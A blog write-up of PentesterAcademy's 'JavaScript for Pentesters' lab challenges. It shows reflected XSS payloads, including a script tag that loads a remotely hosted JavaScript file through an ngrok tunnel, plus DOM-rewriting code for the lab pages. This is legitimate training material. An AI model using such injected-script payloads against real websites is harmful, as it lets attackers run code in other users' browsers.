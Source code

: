 ```yaml
---
title: "JavaScript for Pentesters: Part 1"
date: 04-25-2021
classes: wide
excerpt_separator: <!--more-->
categories:
  - writeups
tags:
  - oswe.prep
  - javascript
  - pentester.academy
---
```


## >> INTRO

Hi all! Today's post is going to be setting up and doing a walkthrough for the PentesterAcademy course [JavaScript for Pentesters](https://www.pentesteracademy.com/course?id=11). I want to give a huge shout-out to the PTA team for being gracious enough to allow me to write the series, as well as being extremely quick to respond! I also want to point out what this series *won't* be - I'm not looking to replace the PTA course, so go buy it or get a sub from them and show them support!

Overall this course was a big help in bettering my JavaScript skills, though I'm by no means a JS expert. The way I approached the problems is fairly straightforward - the challenges themselves aren't *too* convoluted (but don't take that to mean that they're necessarily easy!). My basic approach when doing these was start with the problem prompt, do whatever was needed in the developer tools console, and then write the desired actions into a `.js` file. Once my file was finished I would host it with `ngrok` and trigger the vulnerability to grab my file and execute. Pretty neat!

## >> WHAT YOU'LL NEED

This exploit chain is fun in that you won't need a whole lot of setup to get going. Here's all I used for the course:

* [Visual Studio Code](https://code.visualstudio.com/) : IDE to allow us to write the JavaScript files.
* [Ngrok](https://ngrok.com/) : Helps us host the files without need for an IDE.
* Your favorite web browser (I recommend Chrome or Firefox)
* A small bit of Google-fu

The Ngrok payload hosting idea came from [this blog post from ropnop](https://blog.ropnop.com/docker-for-pentesters/) where they detail their setup with Docker to perform penetration testing. Ours won't be nearly that involved - though feel free to play with it if you like - but we'll just be using `ngrok` to host the forwarding for us so that we can send a payload without needing to host a VPS somewhere.

## >> GETTING STARTED: PROBLEM 1

>Challenge URL: http://pentesteracademylab.appspot.com/lab/webapp/jfp/1

Let's dig in to the first challenge. When we get to the site, here's the first thing we see:

![Initial challenge prompt](/assets/images/js-for-pentesters/c1/c1-prompt.png)

So we've got two things right off the bat - we need to change "Modify me" to "Modified you" and change "Find me" to "Found you". Seems fairly straightforward so far and not all that difficult to do via some basic JavaScript. Let's start by just typing some text into the box. I used "hello" as dummy text and noticed two changes - first, the page reflected our input into an `H2` element (confirm this in your developer tools!); and second, the URL changes to append `?url=hello` to the end of it. These are important because in the world of [reflected cross-site scripting attacks](https://portswigger.net/web-security/cross-site-scripting/reflected), we need to be on the lookout for any controllable input that is displayed back to the user. Start testing the form with a basic XSS payload to see if it's vulnerable, such as `hello<script>alert('hello-xss')</script>`:

![Basic XSS payload to get a JS alert box](/assets/images/js-for-pentesters/c1/c1-xss-popup.png)

As expected, we're greeted with a JavaScript pop-up with our desired text. Inspecting the HTML source code in our browser, we see our input reflected and the script tags are intact. This is good, as it allows us to used XSS payloads completely unchanged instead of worrying about dealing with WAF bypasses or character filtering restrictions.

![Basic XSS payload to get a JS alert box](/assets/images/js-for-pentesters/c1/c1-xss-popup-reflected.png)

This is a good starting point since we now have the vulnerability identified - let's work on getting a payload up and running in the console first. The reason for doing this rather than writing to our `.js` file directly is simple - this allows us to play with the page and re-write things on the fly. Once we have a working payload, we can put it in the `.js` file and test our payload delivery and execution in one fell swoop.

Looking back on the challenge, we have to first identify where the elements are that we need to change - let's look into the source once again and note the full element. I've listed them below for ease of use, but I encourage you (as always) to go verify this yourself.

`<h1 align="center">Find me!</h1>`
`<h2 class="form-signin-heading">Modify me!</h2>`

Now that we've found the elements, how do we go about changing them? For this, let's look to the Mozilla Developer Network docs - specifically, you'll find pages listed with the `getElementBy` prefix such as `getElementById` and `getElementByTagName`. These methods will allow JavaScript to target individual elements on the page - perfect for our situation. Know that these operations will return different data types depending on the one used - in many cases, this means an array of elements is returned. Let's look for unique things we can use to target the individual elements we want.

On the `Find me!` element, we don't see anything particularly useful - it doesn't have any attached attributes other than an alignment one. If we look closer at the source we'll notice that it *is* the only `H1` on the page, though - allowing us to use `getElementByTagName`. Let's try to target it with the Chrome Developer tools.

![XSS popup reflected in the source](/assets/images/js-for-pentesters/c1/c1-xss-popup-reflected.png)

Perfect - now that we have it targeted, changing the text should be relatively straightforward. To do this we use the `innerText` attribute. With our developer tool console, submit the following command to change the text to whatever we want: `document.getElementsByTagName("h1")[0].innerText = "Hello friend"`. Once we hit the enter key to submit, the header text on the screen should change to "Hello friend". Now all that's left to do is change the `innerText` text to match what the prompt said. When everything is said and done, we end up with the following: `document.getElementsByTagName("h1")[0].innerText = "Found you!"`

One down, one to go - now we need to match the `<h2 class="form-signin-heading">Modify me!</h2>` element. For this piece of the challenge, notice that the `h2` has a `class` attached. Going through the source will reveal that this is the only element that has the class; that works for our purposes as an effective unique ID. This time, though, we'll use the JavaScript method `getElementByClassName`. It works in roughly a similar way as before, so let's skip directly to the payload: `document.getElementsByClassName("form-signin-heading")[0].innerText = "Modified you!"`

We now have the way to change both pieces of text that the challenge asks us - add them to a `.js` file in any order (in this case, it won't matter which order). I'm storing mine in a file named `ch1.js`. JavaScript essentially runs all code as global code unless it's in a function, so no need for an explicit `main()` method - it will run the code sequentially as-is. The full script is below.

```javascript
document.getElementsByTagName("h1")[0].innerText = "Found you!"
document.getElementsByClassName("form-signin-heading")[0].innerText = "Modified you!"
```

Now that we have a working script, it's time to test it out. Since most of us aren't directly connecting to WAN, we can't just run `python3 -m http.server 80` and be on our way. This is where `ngrok` comes into play - the TL;DR is that it creates a TCP tunnel to a uniquely generated subdomain on `.ngrok.com` and then routes all traffic back to our local development server when a DNS request is made to that unique URI. Armed with that, let's fire up our `ngrok` server with `ngrok http 80`:

![Ngrok basic usage](/assets/images/js-for-pentesters/c1/c1-ngrok.png)

Now that we have the ngrok tunnel set up, we can now host our local development server with `python3 -m http.server 80` (thought that was out of the picture, didn't you?). Now any request to our ngrok URL (in my case, `https://f0f0a8ca43c6.ngrok.io`) will redirect to my locally-accessible python http.server instance. This will let a target hit our `ch1.js` over WAN :) We'll change up our payload to a different one to fetch our custom script: `hello<script src="https://f0f0a8ca43c6.ngrok.io/ch1.js"></script>`. Once we submit the request, it will automatically re-write the page with the new headers!

![Full JS exploit](/assets/images/js-for-pentesters/c1/c1-full-exploit.gif)

That's it! We've officially finished the challenge and are on our way - now that we have a workflow down, let's take a look at the next 2 challenges!

## >> PROBLEM NUMBER 2: ELECTRIC BOOGALOO

>Challenge URL: http://pentesteracademylab.appspot.com/lab/webapp/jfp/2

Next up - the PTA team have challenged us to change all of the links on the page from pointing at `http://pentesteracademylab.appspot.com/1` to `http://pentesteracademylab.appspot.com/1`. Overall, this challenge will look almost identical to the last - we make sure to target the element, then fundamentally change the URL. The key difference in this challenge lies in needing to learn how to work with multiple elements in a list *and* changing all of them!

Let's start out by learning how to target our given element. If you're familiar with HTML, we're going to be looking for `<a>` tags - the source shows us this:

![Challenge 2 anchor tags in source](/assets/images/js-for-pentesters/c2/c2-anchor-tags.png)

Perfect - we can see that the these links are the only anchor tags on the page. Similar to challenge 1, we are able to use this as a fairly decent unique identifier. Let's select the anchor tags with `document.getElementsByTagName("a")`. This time, however, we can't just select the zeroth element in the array - we have 4 links and 4 anchor tags returned. We need to loop through each element in the array and modify them programmatically.

Note: Since `getElementsByTagName` returns an HTMLCollection and not an array, we'll have to convert it to an array with `Array.from`.
{: .notice--info}

To loop through an array, [we can use the `foreach` method](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/forEach) like so:

```javascript
linkArr = Array.from(document.getElementsByTagName("a"))

linkArr.forEach(element => console.log(element))
```

Woah, let's pump the brakes a bit - there's a lot going on in that code block. Specifically, focus on the `element => console.log(element)`. If you've never seen arrow functions in JS, [MDN gives a nice rundown of what's going on](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/Arrow_functions). In essence, you can provide the `element` variable as a stand in for whatever would be returned, and on the other side of the arrow you can perform operations on it. In this case we have an array of anchor tags so `element` would be each individual anchor tag. As the `forEach` loop iterates, we send the individual anchor tag to `console.log` on the other side. It's worth noting that we can only perform one operation in an arrow function; anything more than that and we'll need to build out the function differently.


